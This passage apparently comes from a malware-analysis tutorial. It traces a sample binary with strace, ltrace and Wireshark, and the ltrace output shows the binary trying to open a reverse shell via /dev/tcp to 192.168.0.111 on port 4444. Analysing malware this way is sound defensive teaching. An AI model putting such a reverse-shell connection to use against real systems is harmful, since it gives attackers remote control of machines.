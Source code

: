 As can be seen, the first system call is made to `execve` to begin execution of the binary. After a few other system calls, it makes a system call to `clone3`, which then calls `execve` to execute the reverse shell command. Although it is not visible in the above output, but feel free to use the `-f` option in `strace` to see it for yourself.

Similarly, we can use `ltrace` to look for any library calls made by the binary:

```
$ ltrace ./main
bash: connect: Connection refused
bash: line 1: /dev/tcp/192.168.0.111/4444: Connection refused
--- SIGCHLD (Child exited) ---
+++ exited (status 0) +++
```

Although our particular binary does not seem to be making any library calls, but this technique is often useful.

Another way to perform dynamic analysis is to use Wireshark to monitor network traffic. To do this, we can start capturing packets and then execute the binary. This will allow us to observe any network connections the binary makes and analyze the data being sent and received:

![wireshark](files/images/wireshark.png)

We can see that the binary attempts to establish a reverse shell network connection from our host system with IP `192.168.0.106` to the host with IP `192.168.0.111` on port `4444`. However, the connection fails as the other host is not listening on that port.
